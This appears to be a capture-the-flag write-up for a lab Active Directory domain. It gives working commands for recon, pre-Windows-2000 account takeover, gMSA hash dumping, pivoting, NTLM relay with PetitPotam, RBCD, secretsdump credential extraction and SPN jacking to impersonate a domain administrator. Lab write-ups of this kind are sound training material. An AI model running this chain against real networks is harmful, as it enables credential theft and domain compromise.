<h2 class="highlight_h2">Attack Path</h2>

<div class="path">
    <div class="node">Reconnaissance</div>
    <div class="node">Pre-Windows 2000 Computers</div>
    <div class="node">DACL Abusing. ReadGMSAPassword rights</div>
    <div class="node">Pivoting. NTLM relay to LDAP. RBCD</div>
	<div class="node">DACL Abusing. ForceChangePassword</div>
    <div class="node root">SPN Jacking. Domain Takeover</div>
</div>

---

<span class="highlight_info">[+] initial creds -> pentest : p3nt3st2025!&</span>

<h2 class="highlight_h2">~> Recon with Nmap</h2>

```bash
sudo nmap -p- $IP -sV -sC --min-rate=5000 -oN nmap-scan
```
Scan output:
```powershell
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-28 03:37:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-28T03:39:25+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-08-28T03:25:59
|_Not valid after:  2027-08-28T03:25:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-08-28T03:25:59
|_Not valid after:  2027-08-28T03:25:59
|_ssl-date: 2026-08-28T03:39:24+00:00; +7h00m00s from scanner time.
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-08-28T03:25:59
|_Not valid after:  2027-08-28T03:25:59
|_ssl-date: 2026-08-28T03:39:25+00:00; +7h00m01s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2026-08-28T03:25:59
|_Not valid after:  2027-08-28T03:25:59
|_ssl-date: 2026-08-28T03:39:25+00:00; +7h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
#....
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2026-08-28T03:38:47
|_  start_date: N/A
```

Scanning reveals that we are dealing with a domain controller based on the open ports. 

At this point, it is possible to highlight some findings:

<span class="highlight_key">Domain Name: pirate.htb</span>

<span class="highlight_key">NETBIOS Name: DC01</span>

<span class="highlight_key">Clock Skew: +7h</span>

<h2 class="highlight_h2">~> Some preparations</h2>

For more convenient interaction with a DC and further use of Kerberos, it's recommended to do the following steps:

### 1) Add name resolution to `/etc/hosts`:

```bash
10.129.244.95    DC01.pirate.htb pirate.htb DC01
```

### 2) Generate the krb5.conf file:

```bash
nxc smb dc01.pirate.htb --generate-krb5-file /etc/krb5.conf
```

### 3) Synchronize the time:

```bash
sudo timedatectl set-ntp false
sudo ntpdate -u dc01.pirate.htb
```

Now we can go on.

<h2 class="highlight_h2">~> Begin recon</h2>

Although we are able to gather information for <span class="highlight_tools">bloodhound</span> due to the presence of the valid credentials, I want to do some reconnaissance manually. 

#### > SMB Shares

```bash
nxc smb dc01.pirate.htb -u 'pentest' -p $PASS --shares
```

Nothing. There are no useful SMB shares to research. 

#### > LDAP (manual)

For LDAP queries, I used the <span class="highlight_tools">ldapsearch</span>.

First, users within the domain were checked:
```bash
LDAPTLS_REQCERT=never ldapsearch -x \
-D 'pentest@pirate.htb' -w $PASS \
-H ldaps://dc01.pirate.htb:636 -b "dc=PIRATE,dc=HTB" '(objectClass=User)' sAMAccountName \
| grep sAMAccountName:
```

This list is short enough.  

```bash
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: DC01$
sAMAccountName: krbtgt
sAMAccountName: a.white_adm
sAMAccountName: a.white
sAMAccountName: <span class="highlight_computer"> WEB01</span>$
sAMAccountName: MS01$
sAMAccountName: EXCH01$
sAMAccountName: gMSA_ADCS_prod$
sAMAccountName: pentest
sAMAccountName: gMSA_ADFS_prod$
sAMAccountName: j.sparrow
```

<h2 class="highlight_h2">~> Pre-Windows 2k Computers</h2>

The list above contains computer accounts that always end with a dollar sign (like `COMPUTERNAME$`).

Also we need to pay attention to the Windows version that is often displayed by the NetExec tool: 

```bash
[*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01)
```

Since Microsoft introduced the [Windows Server 2025](https://learn.microsoft.com/en-us/windows-server/get-started/whats-new-windows-server-2025), the security of default machine account passwords has been improved - due to the text from the official release notes page:
```txt
Windows 2025 DCs block setting computer account passwords to the default password of the computer account name. 
#...
ADAC and ADUC no longer allow creation of a pre-Windows 2000 account.
```

Another option worth mentioning, which exists in Windows Server 2019 (but does not in Windows Servers 2025) is the following one:



It is just a mention of the new versions and the fact that the following version (2019) supports this feature =) 

Okay. What am I getting at? -> We may suppose that within the current domain, there are computer accounts configured as pre-Windows 2000.

Pre-Windows 2000 computers usually have a password that matches their name. For example, if a computer's name is <span class="highlight_computer">WS01$</span>, its password will be `ws01`.

How can we distinguish pre-Windows 2000 computers from non-pre-Windows 2000? 

Pre-Windows 2000 computers have some distinctive features:

<span class="highlight">~></span> The <span class="highlight_attr">LogonCount</span> attribute's value is `0`

<span class="highlight">~></span> The <span class="highlight_attr">UserAccountControl</span> attribute's value is `4128` (32 - **PASSWD_NOTREQD** + 4096 - **WORKSTATION_TRUST_ACCOUNT**)

Now that we have figured out what pre-Windows 2k computers are, let's try to find them using the following LDAP query:

```bash
LDAPTLS_REQCERT=never ldapsearch -x \
-D 'pentest@pirate.htb' -w $PASS \
-H ldaps://dc01.pirate.htb:636 -b "CN=Computers,DC=pirate,DC=htb" \ 
> '(&(UserAccountControl=4128)(LogonCount=0))' sAMAccountName DistinguishedName LogonCount UserAccountControl
```
The result:
```bash
# MS01, Computers, pirate.htb
dn: CN=MS01,CN=Computers,DC=pirate,DC=htb
distinguishedName: CN=MS01,CN=Computers,DC=pirate,DC=htb
userAccountControl: 4128
logonCount: 0
sAMAccountName: MS01$

# EXCH01, Computers, pirate.htb
dn: CN=EXCH01,CN=Computers,DC=pirate,DC=htb
distinguishedName: CN=EXCH01,CN=Computers,DC=pirate,DC=htb
userAccountControl: 4128
logonCount: 0
sAMAccountName: EXCH01$
```

As shown above, two computers correspond to these distinctive features.

But if we try to authenticate using NTLM:
```bash
nxc smb dc01.pirate.htb -u 'ms01$' -p 'ms01'
```
We will get the following problem:
```bash
[-] pirate.htb\ms01$:ms01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

In this case, we can avoid this using Kerberos authentication.

First, get a TGT for <span class="highlight_computer">MS01</span>:
```bash
getTGT.py pirate.htb/'MS01$'
```
Enter a passsword -> `ms01`.

Export ccache file to the environment variable:
```bash
export KRB5CCNAME=$(pwd)/MS01\$.ccache
```

Check the TGT:
```bash
klist                   
```

After these actions, we can freely use this ticket for authentication:

```bash
nxc smb dc01.pirate.htb --use-kcache
```

Obtaining the <span class="highlight_computer">MS01</span> account was pretty cumbersome. So, to facilitate this type of process, we can just use the NetExec's pre2k module:

```bash
nxc ldap dc01.pirate.htb -u 'pentest' -p $PASS -M pre2k
```


<h2 class="highlight_h2">~> gMSA accounts</h2>

At this point, gather information about the domain using <span class="highlight_tools">Rusthound-CE</span> tool:
```bash
rusthound-ce -u 'pentest' -p $PASS \          
-d pirate.htb -c All -z
```

After receiving <span class="highlight">Happy Graphing!</span>, we uploaded ZIP archive to <span class="highlight_tools">Bloodhound</span>.

<span class="highlight_computer">EXCH01</span> has no interesting vectors for the further way; however, this cannot be said about <span class="highlight_computer">MS01</span>.

The <span class="highlight_computer">MS01</span> account is a member of the <span class="highlight">Domain Secure Server</span> group. 

Look at this graph:



A membership in this group gives us <span class="highlight_attr">ReadGMSAPassword</span> rights over two objects -> <span class="highlight_computer">gMSA</span> accounts, both of which, in turn, give us access to <span class="highlight_server">DC01</span> via their <span class="highlight">Remote Management Users</span> group membership.

<span class="highlight_term">Group Managed Service Accounts (gMSA) are special domain accounts that are often used to facilitate service account management. They can be used to run services, scheduled tasks, etc.</span>

The key point about gMSAs is that their passwords are randomly generated and automatically rotated by AD. The password is not intended to be known or managed by administrator.

The `ReadGMSAPassword` right grants us the ability to retrieve the managed password stored in the <span class="highlight_attr">msDS-ManagedPassword</span> attribute.

<span class="highlight_tools">gMSADumper</span> helps extract password hashes:
```bash
gMSADumper -k -d pirate.htb
```


<span class="highlight_info">gMSA_ADCS_prod$ : 1430191bce4f3731edd34d8c24a56c23</span>

<span class="highlight_info">gMSA_ADFS_prod$ : bb510d80e8ed89f4cc81a1f1d374e164</span>


After getting the hashes of both computer accounts, we can access a shell.

Perform PtH:
```bash
evil-winrm -H 1430191bce4f3731edd34d8c24a56c23 -u 'gMSA_ADCS_prod$' -i pirate.htb
```

<h2 class="highlight_h2">~> In1ern@l N3twork</h2>

Here, another network interface exists (`ipconfig`):


The DC's IP address is `192.168.100.1`.

Earlier the <span class="highlight_computer">WEB01</span> computer was revealed by the LDAP query.

```bash
sAMAccountName: WEB01$
```

I've tried to test the connection to this host:
```powershell
Test-NetConnection -ComputerName 'WEB01'
```
Result:
```powershell
ComputerName           : WEB01
RemoteAddress          : 192.168.100.2
InterfaceAlias         :
SourceAddress          :
PingSucceeded          : True
PingReplyDetails (RTT) : 0 ms
```

<span class="highlight_info">[+] <span class="highlight_computer"> WEB01</span> internal address -> 192.168.100.2</span>

At this point, we can interact with <span class="highlight_computer">WEB01</span> only via <span class="highlight_server">DC01</span> which will play a role of pivot host.

<span class="highlight_term">Pivoting is a technique used during engagements to use a compromised host as a gateway into an internal network that is unreachable from outside.</span> 

Launch <span class="highlight_tools">ligolo</span>:
```bash
ligolo-proxy -selfcert -api-laddr 127.0.0.1:11602
```

On the target, deliver the <span class="highlight_tools">ligolo agent</span> and execute the following command:
```bash
agent.exe --connect 10.10.14.98:11601 -ignore-cert
```

Establish a tunnel:


```bash
» session
» interface_create --name ligolo
» tunnel_start --tun ligolo
```

And the last step -> add a route for the created interface:
```bash
sudo ip route add 192.168.100.0/24 dev ligolo
```

<h2 class="highlight_h2">~> NTLM Relay + RBCD</h2>


Nmap scan of <span class="highlight_computer"> WEB01</span>:
```bash
nmap 192.168.100.2 --open -sV -sC --privileged
```
display the following results:
```powershell
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-08-28T04:59:12
|_  start_date: N/A
```

The key discovery is an output by the `smb2-security-mode` script.

This -> <span class="highlight">Message signing enabled but not required</span> - indicates that SMB signing is supported but not enforced, so, we can potentially attempt to perform <span class="highlight_vuln">NTLM relay attack</span>. 

<h3 class="highlight_h3">~> NTLM Relay to LDAP</h3>

<span class="highlight_term">An NTLM relay attack is a MiTM-like technique in which an attacker obtains a victim's NTLM authentication requestt and relays it to another service, allowing the attacker to authenticate to that service as the relayed principal without knowing its password.</span>

Start <span class="highlight_tools">ntlmrelay</span>:
```bash
ntlmrelayx.py -t ldap://pirate.htb --remove-mic --escalate-user 'MS01$' --delegate-access -smb2support
```
Coerce <span class="highlight_computer">WEB01</span> to authenticate to our kali host using PetitPotam:
```bash
python3 PetitPotam.py -u 'gMSA_ADCS_prod$' -hashes :1430191bce4f3731edd34d8c24a56c23 -d pirate.htb 10.10.14.98 192.168.100.2
```

We force <span class="highlight_computer">WEB01</span> to authenticate via NTLM to our intermediate host, while the authentication is then relayed to <span class="highlight_server">DC01</span>. The authentication data is captured and proxied to the <span class="highlight_server">DC01</span> ldap service `ldap://pirate.htb`. 

We can perform an NTLM relay to LDAP because of the DC's configuration: <span class="highlight_server">DC01</span> does not require LDAP signing (due to NetExec's output - `Signing:None`).

The <span class="highlight_flag">\-\-delegate-access</span>  causes <span class="highlight_tools">ntlmrelayx</span> to modify the <span class="highlight_attr">msDS-AllowedToActOnBehalfOfOtherIdentity</span> attribute of the target machine (WEB01). The <span class="highlight_flag">\-\-escalate-user</span> option allows us to specify a principal (in this case <span class="highlight_computer">MS01$</span> account) in order to grant it permission to delegate access to <span class="highlight_computer">WEB01</span>. Also the <span class="highlight_flag">\-\-remove-mic</span> is required for bypassing NTLM Message Integrity Code (MIC) validation.

Thus, as the result, we have <span class="highlight_fcomputer">MS01</span> account with the  ability to impersonate other accounts when accessing services on <span class="highlight_computer"> WEB01</span>. In other words, we change the AD configuration in a way that enables <span class="highlight_vuln">Resource-Based Contrained Delegation</span>. 



We can check whether the <span class="highlight_attr">msDS-AllowedToActOnBehalfOfOtherIdentity</span> attribute is actually set: 
```bash
LDAPTLS_REQCERT=never ldapsearch -x -D 'pentest@pirate.htb' -w $PASS  -H ldaps://dc01.pirate.htb:636 -b "cn=Computers,dc=PIRATE,dc=HTB" '(cn=WEB01)' msDS-AllowedToActOnBehalfOfOtherIdentity
```

<h3 class="highlight_h3">~> Resource-Based Constrained Delegation</h3>

<span class="highlight_term">Resource-Based Constrained Delegation is an AD feature that addresses the Kerberos double-hop problem, allowing a trusted principal (hop 1) to obtain a service ticket to a defined service on a target host (hop 2) on behalf of another user. The target computer (hop 2) must have the <span class="highlight_attr">msDS-AllowedToActOnBehalfOfOtherIdentity</span> attribute, which specifies the principal (hop 1) that is trusted to act on behalf of other users when accesssing services on the target.</span>

At this point, the controlled host (<span class="highlight_computer">MS01</span>) can obtain a service ticket using S4U2Proxy Kerberos extension on behalf of <span class="highlight_username">Administrator</span> on <span class="highlight_computer">WEB01</span>:

```bash
getST.py -k -no-pass pirate.htb/'MS01$' -spn 'cifs/WEB01.pirate.htb' -impersonate Administrator
```


Set the obtained ticket as an environment variable.
```bash
export KRB5CCNAME=./Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

DUMP EVERYTHING with <span class="highlight_tools">secretsdump.py</span>:
```bash
secretsdump.py -k -no-pass pirate.htb/Administrator@WEB01.pirate.htb -target-ip 192.168.100.2
```
Result:
```bash
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x342dfe90cc4061078b79f011cd08f931
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b1aac1584c2ea8ed0a9429684e4fc3e5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:60da2d3ba00d6b5932e4c87dce6fa6b4:::
...
[*] DefaultPassword 
PIRATE\a.white:E2nvAOKSz5Xz2MJu
```
<span class="highlight_info">[+] Administrator : b1aac1584c2ea8ed0a9429684e4fc3e5</span>
<span class="highlight_info">[+] PIRATE\a.white:E2nvAOKSz5Xz2MJu</span>

The local <span class="highlight_username">Administrator</span> hash and the cleartext password for the <span class="highlight_username">a.white</span> domain user were obtained.

Get a shell as an <span class="highlight_username">Administrator</span> on <span class="highlight_computer">WEB01</span> and read the user.txt:
```bash
evil-winrm -i 192.168.100.2 -u 'Administrator' -H 'b1aac1584c2ea8ed0a9429684e4fc3e5'
```


```bash
cat C:/Users/a.white/Desktop/user.txt
```

<span class="highlight_info">[+] C:\Users\a.white\Desktop\user.txt</span>


<h2 class="highlight_h2">~> ForceChangePassword over a.white_adm</h2>

Now, the <span class="highlight_username">a.white</span> is under our control:   

```bash
nxc smb dc01.pirate.htb -u 'a.white' -p 'E2nvAOKSz5Xz2MJu'                               
```

```bash
[+] pirate.htb\a.white:E2nvAOKSz5Xz2MJu
```

In bloodhound, <span class="highlight_username">a.white</span> has <span class="highlight_attr">ForceChangePassword</span> rights over <span class="highlight_username">a.white_adm</span> as shown here:



Change a password using the following command:
```bash
bloodyad --dc-ip 192.168.100.1 -d "pirate.htb" -u "a.white" -p "E2nvAOKSz5Xz2MJu" set password "a.white_adm" 'Qwe123!@#'
```
Now, we have the <span class="highlight_username">a.white_adm</span> account.

<h2 class="highlight_h2">~> SPN Jacking</h2>

<span class="highlight_username">a.white_adm</span> has pretty interesting rights :)





As shown above, <span class="highlight_username">a.white_adm</span> is a member of IT group which is granted <span class="highlight_attr">WriteSPN</span> rights over four computers including <span class="highlight_computer">WEB01</span> and <span class="highlight_server">DC01</span>. Moreover, the <span class="highlight_attr">AllowedToDelegate</span> is also assinged to <span class="highlight_username">a.white</span> over <span class="highlight_computer">WEB01</span>. 

These permissions make SPN jacking a viable attack path.

<span class="highlight_term">An SPN jacking is an attack technique that combines a constratined delegation with DACL abusing. It allows an attacker with <span class="highlight_attr">WriteSPN</span> permissions to move an SPN from one computer account to another potentially redirecting Kerberos authentication and gaining access to the target service.</span>

Via LDAP query information about configured delegation:
```bash
nxc ldap dc01.pirate.htb --use-kcache --find-delegation
```

```bash
Constrained w/ Protocol Transition
```



This output indicates that <span class="highlight_username">a.white_adm</span> can impersonate any domain user when obtaining service tickets to the `HTTP/WEB01` and `HTTP/WEB01.pirate.htb` SPNs assigned to <span class="highlight_computer">WEB01</span>.

Constrained delegation with protocol transition is a delegation mechanism that allows a service to obtain a Kerberos service ticket on behalf of another user without requiring that user's kerberos authentication to the service first.

Since we have <span class="highlight_attr">WriteSPN</span> permissions over <span class="highlight_server">DC01</span>, we can assign the `HTTP/WEB01.pirate.htb` SPN to <span class="highlight_server">DC01</span>. 
However, because an SPN must be unique within the domain, we cannot assign it to the DC while it is still associated with <span class="highlight_computer">WEB01</span>. Therefore, we first need to remove the SPN from <span class="highlight_computer">WEB01</span>.

<span class="highlight_tools">BloodyAD</span> includes a useful command -> `msldap` which can be used to manipute SPNs. (`bloodyad msldap --help`)

First, remove the SPN from <span class="highlight_computer">WEB01</span>:
```bash
bloodyad --dc-ip 192.168.100.1 -d "pirate.htb" -u "a.white_adm" -p 'Qwe123!@#' msldap delspn 'CN=WEB01,CN=Computers,DC=pirate,DC=htb' 'HTTP/WEB01.pirate.htb'
```
Next, assign the SPN to <span class="highlight_server">DC01</span>:
```bash
bloodyad --dc-ip 192.168.100.1 -d "pirate.htb" -u "a.white_adm" -p 'Qwe123!@#' msldap addspn 'CN=DC01,ou=Domain Controllers,DC=pirate,DC=htb' 'HTTP/WEB01.pirate.htb'
```
Now, the `HTTP/WEB01.pirate.htb` SPN is associated with DC01, it is possible to request a service ticket for it: 
```bash
getST.py pirate.htb/a.white_adm:'Qwe123!@#' -spn 'HTTP/WEB01.pirate.htb' -impersonate Administrator -altservice cifs/DC01.pirate.htb -dc-ip dc01.pirate.htb
```
